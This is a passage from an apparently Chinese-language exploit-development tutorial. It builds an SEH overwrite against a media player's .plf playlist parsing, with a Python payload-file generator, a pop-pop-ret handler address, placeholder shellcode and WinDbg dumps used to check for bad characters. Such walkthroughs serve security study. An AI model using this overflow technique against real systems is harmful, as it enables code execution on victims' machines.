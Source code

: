 先进行基于SHE的漏洞利用，`pop pop ret`的地址和原文相同，在next SHE中先用`\xcc`下断，可查看shellcode的毁坏情况：

```python
padding = "A" * 868
next_seh = "\xcc\x90\x90\x90"
handler = "\xf7\x46\x02\x64" # 640246f7 
shellcode = "B" * 500
junk = "A" * 3000

payload = padding + next_seh + shellcode + junk

with open("crash.plf", "w") as f:
    f.write(payload)
```

成功断在预期的`\xcc`处，而且shellcode也没有遭到破坏：
 
```
0:000> g
(15a8.17a4): Break instruction exception - code 80000003 (first chance)
eax=00000000 ebx=0012ed80 ecx=640246f7 edx=77f071cd esi=77f071b9 edi=00000000
eip=0012f570 esp=0012eca4 ebp=0012ecb8 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
0012f570 cc              int     3
0:000> db eip
0012f570  cc 90 90 90 f7 46 02 64-42 42 42 42 42 42 42 42  .....F.dBBBBBBBB
0012f580  42 42 42 42 42 42 42 42-42 42 42 42 42 42 42 42  BBBBBBBBBBBBBBBB
0012f590  42 42 42 42 42 42 42 42-42 42 42 42 42 42 42 42  BBBBBBBBBBBBBBBB
0012f5a0  42 42 42 42 42 42 42 42-42 42 42 42 42 42 42 42  BBBBBBBBBBBBBBBB
0012f5b0  42 42 42 42 42 42 42 42-42 42 42 42 42 42 42 42  BBBBBBBBBBBBBBBB
0012f5c0  42 42 42 42 42 42 42 42-42 42 42 42 42 42 42 42  BBBBBBBBBBBBBBBB
0012f5d0  42 42 42 42 42 42 42 42-42 42 42 42 42 42 42 42  BBBBBBBBBBBBBBBB
0012f5e0  42 42 42 42 42 42 42 42-42 42 42 42 42 42 42 42  BBBBBBBBBBBBBBBB
0:000> db eip+8+0n500-20
0012f74c  42 42 42 42 42 42 42 42-42 42 42 42 42 42 42 42  BBBBBBBBBBBBBBBB
0012f75c  42 42 42 42 42 42 42 42-42 42 42 42 42 42 42 42  BBBBBBBBBBBBBBBB
0012f76c  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
0012f77c  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
0012f78c  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
0012f79c  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
0012f7ac  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
0012f7bc  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
```

那么按照正常的剧本来说next上一个短跳至shellcode就可以弹计算器了，但是当加上之前的shellcode再次触发漏洞时，shellcode并没有执行成功，而且在`pop pop ret`上下断点也断不下来，这就意味shellcode部分会因为某些坏字符而被破坏了，可以在函数`sub_6400F4B0`起始处下断点验证一下：

```
Breakpoint 0 hit
eax=00000001 ebx=6de300aa ecx=02ca1a70 edx=00000000 esi=02ca1a70 edi=0012f471
eip=6400f4b0 esp=0012f414 ebp=02ca1cc0 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
MediaPlayerCtrl!DllCreateObject+0x1a0:
6400f4b0 81ec18020000    sub     esp,218h
0:000> dd esp L5
0012f414  6400f04f 00000001 00000000 02c25da5
0012f424  02c25da0
0:000> db 02c25da5 L20
02c25da5  63 72 61 73 68 2e 70 6c-66 00 00 69 00 6c 00 65  crash.plf..i.l.e
02c25db5  00 49 00 6e 00 66 00 6f-00 00 00 c4 02 00 00 01  .I.n.f.o........
0:000> db 02c25da0 L20
02c25da0  5a 3a 5c 35 5c 63 72 61-73 68 2e 70 6c 66 00 00  Z:\5\crash.plf..
02c25db0  69 00 6c 00 65 00 49 00-6e 00 66 00 6f 00 00 00  i.l.e.I.n.f.o...
0:000> g
Breakpoint 0 hit
eax=00000001 ebx=6de300aa ecx=02ca1a70 edx=00000001 esi=02ca1a70 edi=6405569c
eip=6400f4b0 esp=0012f414 ebp=02ca1cc0 iopl=0         nv up ei pl nz na po nc
```